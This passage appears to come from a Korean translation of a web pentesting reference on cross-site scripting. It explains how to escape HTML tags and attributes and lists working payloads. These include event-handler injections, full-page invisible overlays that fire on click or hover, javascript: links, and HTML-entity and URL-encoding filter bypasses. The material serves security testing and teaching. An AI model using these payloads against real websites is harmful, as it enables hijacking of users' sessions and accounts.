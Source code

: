 취약점을 악용하기 위해 **사용자가 사전에 작성된 데이터가 포함된 링크나 양식을 클릭해야 하는 경우**, [**클릭재킹을 남용**](../clickjacking.md#xss-clickjacking)해 볼 수 있습니다(페이지가 취약한 경우).

### 불가능 - 떠다니는 마크업

**HTML 태그에 JS 코드를 실행할 속성을 만들 수 없다고 생각한다면**, [**떠다니는 마크업**](../dangling-markup-html-scriptless-injection/)을 확인해야 합니다. 왜냐하면 **JS 코드를 실행하지 않고도** 취약점을 **악용**할 수 있기 때문입니다.

## HTML 태그 내부에 주입

### 태그 내부/속성 값에서 탈출

**HTML 태그 내부에 있다면**, 먼저 태그에서 탈출하고 [이전 섹션](./#injecting-inside-raw-html)에서 언급된 기술 중 일부를 사용하여 JS 코드를 실행해 볼 수 있습니다.\
태그에서 **탈출할 수 없다면**, 태그 내부에 새로운 속성을 만들어 JS 코드를 실행해 보려고 할 수 있습니다. 예를 들어, 이 예시에서는 더블 쿼트를 사용하여 속성에서 탈출합니다(입력이 태그 내부에 직접 반영되는 경우 더블 쿼트가 필요하지 않습니다):
```bash
" autofocus onfocus=alert(document.domain) x="
" onfocus=alert(1) id=x tabindex=0 style=display:block>#x #Access http://site.com/?#x t
```
**스타일 이벤트**
```python
<p style="animation: x;" onanimationstart="alert()">XSS</p>
<p style="animation: x;" onanimationend="alert()">XSS</p>

#ayload that injects an invisible overlay that will trigger a payload if anywhere on the page is clicked:
<div style="position:fixed;top:0;right:0;bottom:0;left:0;background: rgba(0, 0, 0, 0.5);z-index: 5000;" onclick="alert(1)"></div>
#moving your mouse anywhere over the page (0-click-ish):
<div style="position:fixed;top:0;right:0;bottom:0;left:0;background: rgba(0, 0, 0, 0.0);z-index: 5000;" onmouseover="alert(1)"></div>
```
### 속성 내부

속성에서 **탈출할 수 없더라도** (`"`이 인코딩되거나 삭제됨) 제어하는 값이 **전체인지 일부인지에 따라** 해당 값이 반영된 **어떤 속성**인지에 따라 악용할 수 있습니다. **예를 들어**, `onclick=`과 같은 이벤트를 제어할 수 있다면 클릭할 때 임의의 코드를 실행시킬 수 있습니다. 또 다른 흥미로운 **예시**는 `href` 속성인데, 여기서 `javascript:` 프로토콜을 사용하여 임의의 코드를 실행할 수 있습니다: **`href="javascript:alert(1)"`**

**HTML 인코딩/URL 인코딩을 사용한 이벤트 내부 우회**

HTML 태그 속성 값 내의 **HTML 인코딩된 문자**는 **런타임에서 디코딩**됩니다. 따라서 다음과 같은 것이 유효할 것입니다 (페이로드는 굵게 표시됨): `<a id="author" href="http://none" onclick="var tracker='http://foo?`**`&apos;-alert(1)-&apos;`**`';">Go Back </a>`

**어떤 종류의 HTML 인코딩이든 유효**합니다:
```javascript
//HTML entities
&apos;-alert(1)-&apos;
//HTML hex without zeros
&#x27-alert(1)-&#x27
//HTML hex with zeros
&#x00027-alert(1)-&#x00027
//HTML dec without zeros
&#39-alert(1)-&#39
//HTML dec with zeros
&#00039-alert(1)-&#00039

<a href="javascript:var a='&apos;-alert(1)-&apos;'">a</a>
<a href="&#106;avascript:alert(2)">a</a>
<a href="jav&#x61script:alert(3)">a</a>
```
**URL 인코딩도 작동합니다:**
```python
<a href="https://example.com/lol%22onmouseover=%22prompt(1);%20img.png">Click</a>
```